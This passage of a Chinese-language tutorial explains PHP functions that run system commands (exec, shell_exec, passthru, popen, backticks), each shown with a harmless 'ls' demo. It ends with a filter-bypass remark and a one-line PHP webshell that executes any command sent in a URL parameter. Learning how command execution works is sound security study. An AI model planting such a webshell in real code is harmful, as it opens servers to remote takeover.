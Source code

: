 **`exec()` 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中**

Demo：将 `exec()` 函数执行的结果导入 result 数组

```php
exec( 'ls' , $result );
print_r($result);        //Array ( [0] => index.php )
```

### 3.4 shell\_exec()

**`shell_exec()` 函数可以执行系统命令，但不会直接输出执行的结果，而是返回一个字符串类型的变量来存储系统命令的执行结果**

Demo：执行 `ls` 命令

```php
echo shell_exec('ls');    //index.php
```

### 3.5 passthru()

**`passthru()` 函数可以执行系统命令并将执行结果输出到页面中**

与 `system()` 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可

Demo：执行 `ls` 命令

```php
passthru('ls');    //index.php
```

### 3.6 popen()

**`popen()` 函数可以执行系统命令，但不会输出执行的结果，而是返回一个资源类型的变量用来存储系统命令的执行结果**

故需要配合 `fread()` 函数来读取命令的执行结果

Demo：执行 `ls` 命令

```php
$result = popen('ls', 'r');    //参数 1:执行 ls 命令 参数 2:字符串类型
echo fread($result, 100);      //参数 1:上面生成的资源 参数 2:读取 100 个字节
```

### 3.7 反引号\`\`

**反引号可以执行系统命令但不会输出结果，而是返回一个字符串类型的变量用来存储系统命令的执行结果**

可单独使用，也可配合其他命令执行函数使用来绕过参数中的过滤条件

Demo：执行 `ls` 命令

```php
echo `ls`;    //index.php
```

所以，就可以通过这个写出几乎最短的 Webshell 了

```php
<?=`$_GET[1]`;
```
